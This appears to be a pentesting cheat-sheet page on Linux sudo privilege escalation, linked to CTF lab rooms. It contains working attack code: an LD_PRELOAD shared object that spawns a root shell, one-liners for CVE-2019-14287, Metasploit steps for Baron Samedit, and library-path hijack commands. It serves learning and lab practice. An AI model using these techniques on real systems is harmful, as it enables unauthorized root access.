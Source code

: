 # sudo privilege escalation

*An excellent reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) <small>(2.1k ⭐)</small>. List sudoers with `getent group sudo`.*

[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![commonlinuxprivesc](../../../../_badges/thmp/commonlinuxprivesc.svg)](https://tryhackme.com/room/commonlinuxprivesc)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![picklerick](../../../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)
[![wgelctf](../../../../_badges/thm-p/wgelctf.svg)](https://tryhackme.com/room/wgelctf)
[![easyctf](../../../../_badges/thm-p/easyctf.svg)](https://tryhackme.com/room/easyctf)
[![colddboxeasy](../../../../_badges/thm-p/colddboxeasy.svg)](https://tryhackme.com/room/colddboxeasy)
[![allinonemj](../../../../_badges/thm-p/allinonemj.svg)](https://tryhackme.com/room/allinonemj)
[![chillhack](../../../../_badges/thm-p/chillhack.svg)](https://tryhackme.com/room/chillhack)
[![tomghost](../../../../_badges/thm-p/tomghost.svg)](https://tryhackme.com/room/tomghost)
[![ccpentesting](../../../../_badges/thm-p/ccpentesting.svg)](https://tryhackme.com/room/ccpentesting)
[![bruteit](../../../../_badges/thm-p/bruteit.svg)](https://tryhackme.com/r/room/bruteit)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)
[![teamcw](../../../../_badges/thm-p/teamcw.svg)](https://tryhackme.com/r/room/teamcw)
[![sudo_weak_configuration](../../../../_badges/rootme/app_script/sudo_weak_configuration.svg)](https://www.root-me.org/en/Challenges/App-Script/sudo-weak-configuration)
[![bash_restricted_shells](../../../../_badges/rootme/app_script/bash_restricted_shells.svg)](https://www.root-me.org/en/Challenges/App-Script/Bash-Restricted-shells)
[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)
![nibbles](../../../../_badges/htb-p/nibbles.svg)
![getsimplecms](../../../../_badges/htb-p/getsimplecms.svg)
[![devvortex](../../../../_badges/htb-p/devvortex.svg)](https://app.hackthebox.com/machines/Devvortex)
[![cozyhosting](../../../../_badges/htb-p/cozyhosting.svg)](https://app.hackthebox.com/machines/CozyHosting)
[![knife](../../../../_badges/htb-p/knife.svg)](https://app.hackthebox.com/machines/Knife)
[![broker](../../../../_badges/htb-p/broker.svg)](https://app.hackthebox.com/machines/Broker)
[![busqueda](../../../../_badges/htb-p/busqueda.svg)](https://app.hackthebox.com/machines/Busqueda)
[![shocker](../../../../_badges/htb-p/shocker.svg)](https://app.hackthebox.com/machines/Shocker)
[![blocky](../../../../_badges/htb-p/blocky.svg)](https://app.hackthebox.com/machines/Blocky)
[![mirai](../../../../_badges/htb-p/mirai.svg)](https://app.hackthebox.com/machines/Mirai)

<div class="row row-cols-lg-2"><div>

If you have [administrative privileges](/operating-systems/linux/_knowledge/index.md#sudo), you can list them with:

```ps
$ sudo -nl # without a password
$ sudo -l # with a password
```

The first section is about settings and environment variables that may be exploited such as [LD_PRELOAD](#ld_preload).

```text!
Matching Defaults entries for [...]:
    [...] # something here
```

The second section is about your [sudoers](/operating-systems/linux/env/files/index.md#etcsudoers) rights. Such commands may be exploited to get root, search the command on [GTOBins #sudo](../tools/gtfobins.md).

```text!
User [...] may run the following commands on [...]:
    (root) /bin/tar
```

➡️ For instance, the user below can run `/bin/tar` as `root`.
</div><div>

📚 Sometimes, instead of root, we may be able to run commands as another user, such as `/opt/script.sh` as user `xxx`. Use `sudo -u xxx`.

🍀 Sometimes, patterns are used in commands/paths. In a path, it means we can use `../`. In a command, we can use any option.

```text!
User [...] may run the following commands on [...]:
    (root) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /usr/bin/vim
    (xxx) NOPASSWD: /opt/*.sh
    (root) /usr/bin/ssh *
    (ALL : ALL) SETENV: NOPASSWD: /usr/bin/python3
```

☠️ If you can only execute the script and not read it, either try to see if the script use an [injectable](../utils/injection.md) parameter or try to find if the source code is available somewhere else <small>(ex: on Git)</small>.

⚠️ A configuration may contains both `env_keep` and `env_reset`.
</div></div>

<hr class="sep-both">

## LD_PRELOAD

[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linprivesc](../../../../_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../../_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

<div class="row row-cols-lg-2"><div>

If there is `env_keep += LD_PRELOAD` in the permissions displayed by `sudo -l` OR if there is no `env_reset`, then it means that we can set `LD_PRELOAD` and run code before executing the command.

The code below replace the gid/uid of the user running the command with `0` <small>(root)</small>. Then, it pops a bash shell <small>(as root!)</small>.

```c
//#include <stdio.h>
//#include <sys/types.h>
//#include <stdlib.h>
void _init() {
    //unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
</div><div>

Compile it with

```shell!
$ cd /tmp
$ gcc -shared -fPIC init.c -o init.so
$ gcc -shared -fPIC init.c -o init.so -nostartfiles
```

Then, call the command that you could run as administrator <small>(`tar` here)</small>, while setting the variable path to your script:

```shell!
$ sudo LD_PRELOAD=/tmp/init.so tar
```

💎 Congratulations, you are `root` now!
</div></div>

<hr class="sep-both">

## Well-known Vulnerabilities

<div class="row row-cols-lg-2"><div>

#### sudo before 1.8.28 (CVE-2019-14287)

[![agentsudoctf](../../../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)

If a user was allowed to run one specific command using sudo, such as `tar`, then it was possible for any other user to impersonate the authorized user, and run the command as root too.

```ps
$ sudo -u#-1 tar [...]
$ sudo -u#4294967295 tar [...]
```

💎 Congratulations, you are `root` now!
</div><div>

#### sudo before 1.9.5p2 (CVE-2021-3156)

[![metasploitframework](../../../../_badges/htb/metasploitframework.svg)](https://academy.hackthebox.com/course/preview/using-the-metasploit-framework)
[![linuxprivilegeescalation](../../../../_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)

See metasploit module: `exploit/linux/local/sudo_baron_samedit`.

```shell!
msf6> use exploit/linux/local/sudo_baron_samedit
msf6> set SESSION 1
msf6> set LHOST tun0
msf6> run
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### LD_LIBRARY_PATH

[![shared_objects_hijacking](../../../../_badges/rootme/app_script/shared_objects_hijacking.svg)](https://www.root-me.org/en/Challenges/App-Script/Shared-Objects-hijacking)

While uncommon, if the sudo configuration include `env_keep+=LD_LIBRARY_PATH`, we are able to set a custom folder for `.so`. Refer to [Shared Object Hijacking](../utils/injection.md#library-hijacking).

```shell!
$ sudo LD_LIBRARY_PATH=/path/to/xx/ [...]
```
</div><div>

#### PYTHONPATH

[![unbakedpie](../../../../_badges/thm-p/unbakedpie.svg)](https://tryhackme.com/r/room/unbakedpie)

While uncommon, if the sudo configuration include `env_keep+=PYTHONPATH`, we are able to set a custom folder for python modules. Refer to [Shared Object Hijacking](../utils/injection.md#library-hijacking).

```shell!
$ sudo PYTHONPATH=/path/to/xx/ [...]
```
</div></div>
